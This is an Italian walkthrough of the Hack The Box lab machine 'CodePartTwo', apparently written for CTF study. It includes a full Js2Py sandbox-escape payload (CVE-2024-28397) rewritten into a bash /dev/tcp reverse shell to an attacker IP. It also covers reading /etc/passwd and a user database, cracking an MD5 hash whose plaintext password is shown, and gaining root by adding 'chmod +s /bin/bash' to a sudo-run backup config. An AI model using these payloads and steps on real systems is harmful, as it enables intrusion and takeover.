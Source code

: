 # Macchina CodePartTwo

IP vittima: 10.10.11.82 

IP attacante: 10.10.14.14

## Recon

`sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.82 -oG porte`
`nmap -sC -sV -p8000 10.10.11.82 -oN servizi`

## Porte e Servizi

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017205234.png)

## Porta 8000

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017205344.png)

- Scaricare l'app per analizzarla

- Registrarsi con nome utente e password qualsiasi e accedere
  ![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017205545.png)
  
  ## Analisi app
  
  Una volta scaricata e unzippata l'app, nella sua cartella si trova il file **requirements.txt**
  ![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017210047.png)
  
  ### exploit js2py 0.74 ( CVE-2024-28397 )

- **CVE**: **CVE-2024-28397**.  
    Colpisce **Js2Py ≤ 0.74** e consente **Remote Code Execution** (sandbox escape) anche quando si usa `js2py.disable_pyimport()` per “blindare” l’ambiente. Un attaccante può ottenere un riferimento ad oggetti Python dall’interno del codice JavaScript e arrivare a eseguire comandi (es. via `subprocess.Popen`). [nvd.nist.gov+2GitHub+2](https://nvd.nist.gov/vuln/detail/CVE-2024-28397?utm_source=chatgpt.com)

- **Stato patch**: l’upstream su PyPI è fermo alla **0.74** (nov 2022) e i tracker indicano **nessuna versione ufficiale corretta**; alcune distro hanno backportato fix nei loro pacchetti (aggiornamenti SUSE/Mageia). In pratica: su PyPI non esiste ancora un rilascio “0.75/patchato” del progetto originale. [Linux Security+3PyPI+3GitHub+3](https://pypi.org/project/Js2Py/?utm_source=chatgpt.com)

- **PoC e dettagli tecnici**: il PoC pubblico mostra come bypassare `disable_pyimport()` sfruttando una variabile globale/oggetto interno per risalire a oggetti Python e uscire dal sandbox. Il repository del ricercatore include anche una patch “non ufficiale”/workaround. [GitHub](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape?utm_source=chatgpt.com)

Vedi questa git hub `https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py`

Il payload da sfruttare è questo:

```javascript
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

### Sfruttare il payload

Questo è il payload precedente con inserita la reverse shell sulla porta 4500 ( `bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/4500` )

```javascript
"code":"let cmd = \"bash -c 'exec bash -i &>/dev/tcp/10.10.14.15/4500 <&1'; \"\nlet hacked, bymarve, n11\nlet getattr, obj\n\nhacked = Object.getOwnPropertyNames({})\nbymarve = hacked.__getattribute__\nn11 = bymarve(\"__getattribute__\")\nobj = n11(\"__class__\").__base__\ngetattr = obj.__getattribute__\n\nfunction findpopen(o) {\n    let result;\n    for(let i in o.__subclasses__()) {\n        let item = o.__subclasses__()[i]\n        if(item.__module__ == \"subprocess\" && item.__name__ == \"Popen\") {\n            return item\n        }\n        if(item.__name__ != \"type\" && (result = findpopen(item))) {\n            return result\n        }\n    }\n}\n\nn11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()\nconsole.log(n11)\nn11"
```

Mettersi in ascolto sulla porta 4500 `nc -nlvp 4500`
Andare sulla dashboard del sito e lanciare `run code` bloccandolo con la **Burpsuite**
In Burpsuite sostituire il "code" con il payload e fare **farward**
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017212338.png)
Arriva la shell e siamo dentro.
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017212805.png)

### User marco

Esaminiamo **passwd** con `cat /etc/passwd` e troviamo lo user marco
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017213121.png)

Andiamo nella cartella `/tmp/` e scarichiamo [[linpeas]](mettere su un server python nella cartella del nostro PC che lo contiene e scaricarlo nella cartella /tmp/ del computer vittima con wget ).
Una volta scaricato dargli i permessi di esecuzione e lanciarlo.

Linpeas trova dei db che potrebbero contenere informazioni interessanti
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017222826.png)
soprattutto il file `users.db`
Esaminiamolo con `sqlite3`:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017223957.png)

Troviamo due hash md5 (soprattutto quello di marco) che possiamo provare a craccare con[[hashcat]]
`hashcat -m 0 649c9d65a206a75f5abe509fe128bce5 /usr/share/wordlists/rockyou.txt`
Troviamo la password `sweetangelbabylove`
Quindi possiamo usare lo user `marco` e la sua password per connetterci con ssh
Nella cartella `/home/marco` troviamo la userflag nel file `user.txt`

## Scalata dei privilegi

Linpeas aveva trovato anche il file `npbackup-cli` che potrebbe essere sfruttato
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017230659.png)

con `sudo -l` vediamo che l'utente marco può lanciare il file npbackup-cli come sudo senza password:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017232022.png)
Quindi può essere sfruttato per scalare i privilegi.

### Script /usr/local/bin/npbackup-cli

questo è lo script python npbackup-cli

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import re
import sys
from npbackup.__main__ import main
if __name__ == '__main__':
    # Block restricted flag
    if '--external-backend-binary' in sys.argv:
        print("Error: '--external-backend-binary' flag is restricted for use.")
        sys.exit(1)

    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

Vediamo che lo script importa `main` da `npbackup.__main__` 
Proviamo a cercare `npbackup` per trovare `__main__`
`find / -name "npbackup" -type d 2>/dev/null`
Lo troviamo in `/usr/local/lib/python3.8/dist-packages/npbackup`

Se lanciamo `npbackup-cli` vediamo che per funzionare necessita di un file di configurazione:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017233800.png)
Lanciando l'help di `npbackup-cli` vediamo che può essere lanciato fornendo l'indirizzo del file di configurazione, che potrebbe essere modificato per lanciare dei comandi con i permessi root
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/Pasted%20image%2020251017234158.png)
Proviamo a cercare un file di configurazione da modificare:
`find / -name "*npbackup*conf*" -type f 2>/dev/null`
Lo troviamo in `/home/marco/npbackup.conf`

### Exploit

copiamo il file di configurazione copiato in /tmp/
`cp /home/marco/npbackup.conf /tmp/exploit.conf`
Modifichiamo la parte iniziale del file `exploit.conf` inserendo i comandi 

```bash
pre_exec_commands:
      - chmod +s /bin/bash
```

in questo modo:

```bash
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: /tmp/repo
    repo_group: default_group
    backup_opts:
      paths:
      - /tmp/backup_source
      source_type: folder_list
      exclude_files_larger_than: 0.0
      pre_exec_commands:
      - chmod +s /bin/bash
    repo_opts:
      repo_password: test123
```

poi lanciamo lo script:
`sudo /usr/local/bin/npbackup-cli -c /tmp/exploit.conf --backup`
e il comando
`/bin/bash -p`
Per diventare root
Nella cartella `/root` troviamo la rootflag nel file `root.txt` 
